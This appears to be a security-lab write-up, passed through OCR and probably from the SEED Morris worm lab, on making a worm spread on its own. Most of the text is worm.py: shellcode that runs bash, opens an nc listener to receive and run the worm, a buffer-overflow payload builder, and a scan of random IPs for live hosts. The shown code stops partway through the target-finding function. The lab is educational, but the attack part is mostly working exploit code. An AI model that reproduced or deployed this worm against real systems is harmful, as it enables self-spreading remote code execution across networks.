 In this task, the aim is for the virus to be able to spread automatically from one infected machine to another.
To do this, changes had to be made to the `worm.py` file, since the target machine's IP was hardcoded. There are several ways to determine the IP of the new target mahcines, but to make this task simpler we used `random IP address generation`.

It is also important to check whether the target is alive or not. Therefore, the strategy used is to send and echo request to the target using the `ping` command and check whether the target has sent the reply.

Below is the code used to propagate the virus:

```py
#!/bin/env python3
import sys
import os
import time
import subprocess
from random import randint

shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   " echo '(^_^) Shellcode is running (^_^)'; sleep 1;          "
   " nc -lnv 8081 > worm.py; pwd; chmod +x worm.py;             "
   " ./worm.py;                                                *"
   "123456789012345678901234567890123456789012345678901234567890"
).encode('latin-1')

# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))

   # Put the shellcode at the end
   shellcode_length = len(shellcode)
   content[500-len(shellcode):] = shellcode

   ret = 0xffffd588 + 180 # Adjust this value as needed
   offset = 0x74
   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)

# Find the next victim (return an IP address).
# Check to make sure that the target is alive. 
def getNextTarget():
    ipaddr = ''
    while True:
        x = randint(151, 155)
        y = randint(70, 80)
        
        ipaddr = '10.' + str(x) + '.0.' + str(y)
        
        try:
            output = subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
            result = output.find(b'1 received')
            
            if result == -1:
```